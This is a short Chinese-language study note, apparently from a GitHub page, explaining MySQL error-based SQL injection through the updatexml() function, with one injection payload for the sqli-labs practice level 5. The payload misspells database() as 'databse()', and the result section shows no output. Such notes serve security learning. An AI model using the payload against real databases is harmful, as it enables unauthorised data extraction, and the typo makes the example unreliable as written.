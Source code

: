 #### updatexml()函数
- 在mysql高版本中(大于5.1版本)中添加了对XML文档进行查询和修改的函数，updatexml(),extracvalue()而显示错误则需要在开发程序中采用print_r mysql_error()函数，将mysql错误信息输出。

- 作用：改变文档中符合条件的节点,使用不同的xml标记匹配和替换xml块的函数。
```shell
updatexml(XML_document,XPath_string,new_value);
#XML_document:String格式，为XML文档对象的名称，文中为Doc
#XPath_string:Xpath格式的字符串，代表路径。
#new_value:String格式，替换查找到的符合条件的数据。
```

#### 注入报错原理
- 在使用此语句时，如果XPath_string不符合该种类格式，就会出现格式错误，并且会以系统报错的形式提示出错误，也就是我们的输入的具体的字符串不合规范。
- 那么哪些格式是不符合规范的，比如在字母数字前加入特殊字符如~，*

#### 实例sqli-labs第五关
```shell
id = 1' and updatexml(1,concat('~',(select databse()),'~'),1) --+

#结果:
如果还想要其他查询语句，在select那个位置做修改即可
```